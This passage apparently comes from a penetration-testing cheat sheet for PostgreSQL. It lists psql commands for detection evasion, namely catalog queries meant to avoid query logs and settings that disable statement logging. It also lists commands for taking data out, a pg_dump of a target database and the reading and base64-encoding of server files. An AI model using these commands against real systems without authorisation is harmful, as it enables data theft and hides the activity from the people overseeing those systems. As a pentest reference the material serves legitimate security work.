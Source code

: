 #### Obfuscating SQL Queries

* **Tool:** \[\[PSQL]]

```bash
SELECT * FROM pg_catalog.pg_tables WHERE schemaname = 'public';
```

* **Description:** Use catalog queries to retrieve information while avoiding detection by simple query logs.

#### Log Evasion

*   **Tool:** \[\[PSQL]]

    ```bash
    SET log_statement = 'none';
    ```
* **Description:** Temporarily disables logging of SQL statements to evade detection during a penetration test.

#### Disabling Logging

*   **Tool:** \[\[PSQL]]

    ```bash
    ALTER SYSTEM SET log_statement = 'none';
    ```
* **Description:** Disable or reduce logging to evade detection during exploitation.

### Data Exfiltration

#### Exfiltrating Data via SQL Dump

*   **Tool:** \[\[pg\_Dump]]

    ```bash
    pg_dump -h <target_ip> -U <username> -p 5432 <database_name> > data_dump.sql
    ```
* **Description:** Dumps the entire database to a file, which can then be exfiltrated from the target environment.

#### Encoding Data for Exfiltration

*   **Tool:** \[\[PSQL]]

    ```bash
    SELECT encode(pg_read_binary_file('/path/to/secret_data'), 'base64');
    ```
* **Description:** Encodes binary data in base64 for easier exfiltration via SQL queries.

## Exploits and Attacks

### Password Attacks

#### Password Brute Force
